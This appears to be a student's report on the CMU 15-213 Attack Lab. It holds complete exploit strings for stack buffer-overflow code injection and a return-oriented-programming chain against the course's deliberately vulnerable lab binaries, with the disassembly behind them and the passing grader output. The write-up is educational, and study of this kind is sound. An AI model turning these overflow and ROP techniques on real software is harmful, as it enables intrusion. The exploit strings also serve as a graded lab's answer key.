

###  Table Of Content

- [Part I: Code Injection Attacks](#part-i-code-injection-attacks)
	- [1.1 Level 1](#11-level-1)
	- [1.2 Level 2](#12-level-2)
	- [1.3 Level 3](#13-level-3)
	
- [Part II: Return-Oriented Programming](#part-ii-return-oriented-programming)
	- [2.1 Level 2](#21-level-2)
	- [2.2 Level 3](#22-level-3)


# 	Attack Lab Report

In this lab, it used the vulnerability of function `Gets()` to do the correspond attacks, where it never check the input string length to trigger the buffer overflow attack.

```c
1 unsigned getbuf() 
2 { 
3 	char buf[BUFFER_SIZE]; 
4 	Gets(buf); 
5 	return 1; 
6 }
```

The code of `test`:

```c
1 void test() 
2 { 
3	int val;
4	val = getbuf();
5	printf("No exploit);.
6 }
```

Specifically, this lab uses two types of attack : `Code Injection` and `Return-Oriented Programming`

Here is the summary of lab phases: 

| Phase  | Program   | Level  |	Method	| Functions|
| :----: |:--------:| :----: | :------: | :-------:|
| 1      	| CTARGET |   1     |      CI       |  Touch1  |
| 2      	| CTARGET |   2     |      CI       |  Touch2  |
| 3      	| CTARGET |   3     |      CI       |  Touch3  |
| 4      	| RTARGET |   2     |     ROP     |  Touch2  |
| 5      	| RTARGET |   3     |     ROP     |  Touch3  |

**where CI = Code Injection; ROP = Return-Oriented Programming.**


<p align="center">Figure 1. Stack Layout in  Memory(picture from the slide of CMU-15213)</p></br>


<p align="center">Figure 2. Code Injection Attack(picture from the slide of CMU-15213)</p></br>

In the code injection attack, the attacker just filled out the caller frame in the stack frame until it reaches the return address section (**shown in Figure 1**). Then the attacker will utilize the vulnerable function like `gets()`, where it never checks the length of the input string, to overwrite the content in the `ret` area and replace it with the address that the attacker intends to reach.(**shown in Figure 2**)

When it go the function that attack would like to go, then the next operation will control by attacker and they can do whatever they want.

##	Part I: Code Injection Attacks

### 1.1 Level 1

In this part, I used the vulnerability of the function `unsigned getbuf()` to get the **CTarget**  to execute the code for `touch 1`, when `getbuf()` executes its return statement, rather than executes the function of `test()`.

The code of `touch 1`:

```c
1 void touch1() 
2 {
3	vlevel = 1; / * Part of validation protocol * / 
4 	printf("Touch1!: You called touch1()\n");
5 	validate(1);
6 	exit(0);
7 }
```

Note that your exploit string may also corrupt parts of the stack not directly related to this stage, but this will not cause a problem, since `touch1` causes the program to exit directly.

In this lab, we don't need to injection any code into the program, rather, all the thing we need to do is by using the vulnerability of `getbuf()` to change target the address of `ret` in the stack frame of `getbuf()`, where replace the address of `test()` with `touch1()`.

Just like what we saw in the description of **code injection attack**, the thing we need to do is overwitten the return address of `getbuf()` to make it not jump back to the funciton `test()`. Rather, jump to the function `touch1()`.

For more detail, let's look the assembly code of `getbuf()` (In `ctarget`):

```asm
(gdb) disas getbuf 
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
```

As the code shown us, the function `getbuf()` request 0x28 (40 in Decimal) bytes spaces for the input buffer, and then return back the to the `test()`. Note that there is no arguement passed into `getbuf()`. Thus, we just need to make sure that if our input string longer than 40, then we can overwrite the return area of `getbuf()`, where ,by overwrite the return area of `getbuf()`, the program will not jump back to `test()`, but the address we point to. Since we are using 64-bit machine, **the length of return address should be 8 bytes.** Also, we pass the target address as a data, and thus it should follow the **order of little endian**.

For better understand the layout of stack frame, we firstly print the stack frame range of `getbuf()`, where it prints the address of `%rsp` before and after called `Gets()`:

```bash
(gdb) i r rsp
rsp            0x5561dca0	0x5561dca0
(gdb) ni
14	in buf.c
(gdb) i r rsp
rsp            0x5561dc78	0x5561dc78
```
Then, we use a legal but distinguishable input string as input string to `ctarget` and we print the layout of the stack frame for `getbuf` after call `Gets()`.

```bash
01 02 03 04 05 06 07 08 
11 12 13 14 15 16 17 18
21 22 23 24 25 26 27 28
31 32 33 34 35 36 37 38
41 42 43 44 45 46 47
```
We will get the layout like this:


Here is the assembly code for `test()`:

```asm
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx ; the place should have jumped back to
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	retq   
End of assembler dump.
```

Moreover, we can get the adderss of `touch1()` by seeing its assembly code, which is `0x4017c0`.

```asm
(gdb) disas touch1 
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp ; the begin address of touch1()
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) 
```

Here is our code injection payload:

```
00 00 00 00 00 00 00 00 <- the first position of padding ($rsp position after called Gets() )
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 <- the last position of padding
c0 17 40 00 00 00 00 00 <- the postion of we want to overwrite ($rsp position before called Gets() )
```

Finally, we need to use the program `hex2raw` to convert our input string to the real binary attach string.

we have successfully made the program jump to `touch 1()` in the final.

```bash
➜  ~/cmu-15-213-CSAPP3E-lab/3.Attack_lab/target1 ./hex2raw < solutions/CI_Level1.txt | ./ctarget -q 
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
	00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```

### 1.2 Level 2

In this section, we are required to redirect the address of `touch2` just like what we did above. What's more, we also need to inject code as part of the exploit string, where we need to pass our cookie value as the variable to the `touch2()`. 

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

As the code is shown above, to pass this phase, not only we need to redirect to the `touch2` and inject the value in it, but also the value we pass should be the cookie value to make sure the `touch2()` call `validate(2)`.

Thus, in CI-Level2, we have two main goal

+ redirect the program to the `touch2()`.
+ Pass parameter of cookie to `touch2()` by injecting exploit string.

Here is the assemly code of `touch2`:

```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

First, we can see the the first address of `touch2` should be `0x4017ec`. Then, we also find that the variable we pass to `touch2` should be stored at `$rdi`.
 
To make `$rdi` store our cookie, we need to inject the exploit string, which contains our cookie value, to the input string. Specifically, we need to write our own assembly code, and make rdi store cookie value and then jump to `touch2()`. Then, make this code as the part of exploit string.

The assemly code we made just like below:

```asm
movq  $0x59b997fa,%rdi ; make rdi store our cookie value
pushq $0x4017ec ; push the address of touch 2 into the stack
retq ; return to touch2()
```
After that:

1. we use `gcc -c injection_code.s` to generate object file
2. then use `objdump -d injection_code.o > injection_code.txt` reverse this object file to generate the `Hexadecimal Code`.

```asm
injection_code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  ; use return instruction to jump to tourch2

```
**We will use this hexadecimal code as part of the exploit string to mislead the program into thinking that these input characters are assembly instructions，where it is the code we will inject into the program.**

Next, our goal is how to arrange the layout of the input exploit string to mislead the program to do the behavior that we expect.

**There have two ways to do arrange the layout of exploit string without using jmp or call instructions.**

**First** way is that we first overwrite the return area to make the program jump to the address that store the beginning of the input exploit string:`0x5561dc78`, where it is the top of the stack frame after called `getbuf()`. Then, we put the Hexadecimal Code generate by objdump into the head of exploit input string, where it mislead the program take this code as the instructions to pass the cookie value to `touch2` and jump to `touch2`.

Here is final exploit string:

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

We pass the test:

```bash
➜ ~/cmu-15-213-CSAPP3E-lab/3.Attack_lab/target1 ./hex2raw < solutions/CI_Level2/CI_Level2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 
	00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

The **Second way** is to **not only overwrite the next 8 bytes address, but next 24 bytes address**, where the return area should point to the next line of assembly code `0x5561dca8`. The `Hexadecimal code` we made should be after the return address:

The exploit string should be like this:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 dc 61 55 00 00 00 00
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
```

Also pass the test:

```bash
➜ ~/cmu-15-213-CSAPP3E-lab/3.Attack_lab/target1 ./hex2raw < solutions/CI_Level2/CI_Level2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
			 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 A8 DC 61 55 
	 		 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 
```

### 1.3 Level 3

Phase 3 also involves a code injection attack, but **passing a string as argumen**t.

Within the file `ctarget` there is code for functions `hexmatch` and `touch3` having the following C representations:

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

The task is to get `CTARGET` to execute the code for `touch3` rather than returning to test. We must make it appear to `touch3` as if you have passed a string representation of your cookie as its argument.

Basically, the things we need to do in this phase is kind of like what we did in phase 2. However, the difference is that this time, we need to pass our cookie value as the string rather than pass it directly. Another difference is that when we passing the cookie into the `touch3`, it will check the similarity by the function `hexmatch` rather than compared it directly due to the input format is string this time.

**Note that** when functions `hexmatch` and `strncmp` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

The first thing we need to do is to check the Ascii code table and convert our cookie value to string. After check the Ascii table, the cookie value `0x59b997fa ` to `35 39 62 39 39 37 66 61`.   Moveover, due to each string must have a null character for indicating the end of string, we also need to add a null character to the parameter we pass to `touch3()`: `35 39 62 39 39 37 66 61 00`.

Related ASCII code:

```
Hex  Char
30    0
31    1
32    2
33    3
34    4
35    5
36    6
37    7
38    8
39    9
61    a
62    b
63    c
64    d
65    e
66    f
00    NUL '\0' (null character)
```

Here is the assembly code of `touch3`:

```asm
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>
```

**We can see that the first address of `touch3()` is `0x4018fa`.**

Here is the assembly code of `hexmatch`

```asm
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
  401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401854:	41 89 fc             	mov    %edi,%r12d
  401857:	48 89 f5             	mov    %rsi,%rbp
  40185a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401861:	00 00 
  401863:	48 89 44 24 78       	mov    %rax,0x78(%rsp)
  401868:	31 c0                	xor    %eax,%eax
  40186a:	e8 41 f5 ff ff       	callq  400db0 <random@plt>
  40186f:	48 89 c1             	mov    %rax,%rcx
  401872:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
  401879:	0a d7 a3 
  40187c:	48 f7 ea             	imul   %rdx
  40187f:	48 01 ca             	add    %rcx,%rdx
  401882:	48 c1 fa 06          	sar    $0x6,%rdx
  401886:	48 89 c8             	mov    %rcx,%rax
  401889:	48 c1 f8 3f          	sar    $0x3f,%rax
  40188d:	48 29 c2             	sub    %rax,%rdx
  401890:	48 8d 04 92          	lea    (%rdx,%rdx,4),%rax
  401894:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
  401898:	48 c1 e0 02          	shl    $0x2,%rax
  40189c:	48 29 c1             	sub    %rax,%rcx
  40189f:	48 8d 1c 0c          	lea    (%rsp,%rcx,1),%rbx
  4018a3:	45 89 e0             	mov    %r12d,%r8d
  4018a6:	b9 e2 30 40 00       	mov    $0x4030e2,%ecx
  4018ab:	48 c7 c2 ff ff ff ff 	mov    $0xffffffffffffffff,%rdx
  4018b2:	be 01 00 00 00       	mov    $0x1,%esi
  4018b7:	48 89 df             	mov    %rbx,%rdi
  4018ba:	b8 00 00 00 00       	mov    $0x0,%eax
  4018bf:	e8 ac f5 ff ff       	callq  400e70 <__sprintf_chk@plt>
  4018c4:	ba 09 00 00 00       	mov    $0x9,%edx
  4018c9:	48 89 de             	mov    %rbx,%rsi
  4018cc:	48 89 ef             	mov    %rbp,%rdi
  4018cf:	e8 cc f3 ff ff       	callq  400ca0 <strncmp@plt>
  4018d4:	85 c0                	test   %eax,%eax
  4018d6:	0f 94 c0             	sete   %al
  4018d9:	0f b6 c0             	movzbl %al,%eax
  4018dc:	48 8b 74 24 78       	mov    0x78(%rsp),%rsi
  4018e1:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  4018e8:	00 00 
  4018ea:	74 05                	je     4018f1 <hexmatch+0xa5>
  4018ec:	e8 ef f3 ff ff       	callq  400ce0 <__stack_chk_fail@plt>
  4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
  4018f5:	5b                   	pop    %rbx
  4018f6:	5d                   	pop    %rbp
  4018f7:	41 5c                	pop    %r12
  4018f9:	c3                   	retq   
```

Just like what we did in CI-Level2, the return address of `getbuf()` should be overwritten by the first address where the injected code is placed. However, another difference from CI-Level2 is that the parameter passed to `$rdi `should not be the cookie value itself, but **the first address where the cookie string is stored**.

To avoid the stack frame of `hexmatch` overwritten our exploit string, due to the stack frame of `hexmatch` is created after we pass the exploit string into `touch3`, we need to put  cookie string into the space the `hexmatch` will never reach.  We found that the `hexmatch` will overwrite the first 40 bytes of input string. Thus, we decide to put cookie string into the address that higher than return address of `getbuf`. Specifcally，we plan to put the Injection code to the top of stack frame for `getbuf()`, where it is `0x5561dc78`. Also, we will put the cookie string into after the return value, which is `0x5561dca0 + 0x8 = 0x5561dca8`

Here is our code:

```asm
mov $0x5561dca8, %rdi // pass the address that store the cookie string in to rdi
pushq $0x4018fa // push the addr of touch3 into stack
retq // return to touch 3
```

After using the `gcc -c code_injection.S` and `objdump -d code_injection.S > code_injection.txt`, we get the `Hexadecimal Code`.

```bash
code_injection.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq 
```

Here is my final exploit string:

```
48 c7 c7 a8 dc 61 55 68		<- 0x5561dc78 : the top the stack frame for getbuf
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 	<- Jump to 0x5561dc78
35 39 62 39 39 37 66 61		<- The position store the cookie string(0x5561dca8)
00
```

We finally pass the test:

```bash
➜  ~/cmu-15-213-CSAPP3E-lab/3.Attack_lab/target1 ./hex2raw < solutions/CI_Level3/CI_Level3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00
	 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```

##	Part II: Return-Oriented Programming

In this section, we try to compromise `rtarget`, where the simple code injection attack cannot work on it. Specifically, `rtarget` adds two techniques to thwart such attacks:

1. **Address Space Layout Randomization(ASLR):** ASLR randomly arranges the address space positions of key areas such as stack, heap, libraries and the base of executable. [1] It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
2. **Nonexecutable code segments:** In traditional x86, can mark region of memory as either “read-­‐only” or “writeable”, where X86­‐64 added explicit “execute” permission to mark stack as nonexecutable. Thus, even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

These two techniques make a pure code injection attack an impossible attack method.

Thus, in this section, we use a totally new attack technic which called Return-Oriented Programming(ROP) to compromise `rtarget`, where `rtarget` uses such two techniques above to prevent it from simple code injection attack. In ROP, we don't inject any new code into the program, instead, we will utilize the feature of X86 to make the part of the program `hexadecimal code` originally in `rtarget` become the part of attack code which called as `gadget`, where,in X86 architecture, their instructions are variable-length and unaligned. These features of x86 giving unintended instructions if one jumps into the middle of certain instructions and the instrution set is large and its encoding is dense, so variable of instructions are available for use as gadget, even in relatively small programs.[2] Moreover, the strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction `ret`. A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations.


<p align="center">Figure 3. RoP process explain(picture from the write of attack lab of CMU-15213)</p></br>

Typically, we will collect several gadgets from the program, and each gadget will end at `ret ( c3 )`. As the figure shown, we will start as the start gadget we choose(gadget 1), and gadget 1 will jump to gadgets 2 by using `ret` instruction, gadgets 2 will jump to gadgets 3(if necessary) until we fulfill our goal.

Here is the common `hexadecimal code` that can be used as gadget:


<p align="center">Table 1. Gadget Table(picture from the write of attack lab of CMU-15213)</p></br>

###  2.1 Level 2
Just like what we did in phase2(CI-Level2), we need to store the cookie value into `rdi` and then jump to `touch2()`.

```asm
movq  $0x59b997fa,%rdi ; make rdi store our cookie value
pushq $0x4017ec ; push the address of touch 2 into the stack
retq ; return to touch2()
```

However, as we described above, due to ASLR (Address Space Layout Randomization) and non-executable code segments, we cannot directly inject code as in the previous section. Instead, we can use RoP to collect the existing gadgets in the current program and link them together to achieve our goal, where the gadget is actually a sequence of "hexadecimal codes" that representing executable assembly code.

It is hard to achieve the assembly code like above, but we can change the assembly code fits for the current program but still can achieve our goal. According the hint from **write up**, the gadget in this phase can be found in the region of the code for `rtarget` demarcated by the functions `start_farm` and `mid_farm` and the assembly instructions will be restricted to `movq`, `popq`, `nop` and `ret` instructions. 

Avaliable gadget from `farm` or dissasemble by `rtarget`:

```asm
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq 
```

We can change our assembly code like this:

```asm
// First gadget
popq %rax// the next 8 bytes must be the cookie value to save in %rax
ret // jump to the second gadget
// Second gadget
movq	%rax, %rdi // move cookie value to rdi
ret // jump to touch 2
```
By searching the `table 1`, we can find that `popq %rax` can be represented as `58` and `ret` can be represented as `c3`. Thus the first gadget can be represented as `58 90 c3` or `58 c3`, where `90` represented by `nop(no operation)`, which is doing nothing but increment program counter by 1. Specifically, we found that `getval_280` and `addval_219` contain such gadget.

We choose function `getval_280` as our first gadget

```asm
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq 
```
**As we can see in the code, the first address of gadget should be `0x4019ca+0x2 = 0x4019cc`**

For the second gadget, we can see that `movq %rax, %rdi; ret` should be represent as `48 89 c7 c3`, we can find this gadget from the function `addval_273`, where its first address should be `0x4019a0 + 0x2 = 0x4019a2`.

```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq    
```
Thus the exploit string should be like this:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00		<- The address for the first gadget
fa 97 b9 59 00 00 00 00		<- Cookie Value
a2 19 40 00 00 00 00 00		<- The address for the second gadget
ec 17 40 00 00 00 00 00		<- The address of touch2()
```

We pass the test: 

```bash
➜  ~/cmu-15-213-CSAPP3E-lab/3.Attack_lab/target1 ./hex2raw < solutions/RoP_Level2/ROP_Level2.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
	00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 
	00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

###  2.2 Level 3

[1]	ASLR wiki : [https://en.wikipedia.org/wiki/Address_space_layout_randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)

[2]	R. Roemer, E. Buchanan, H. Shacham, and S. Savage. Return-oriented programming: Systems, languages, and applications. ACM Transactions on Information System Security, 15(1):2:1–2:34, March 2012.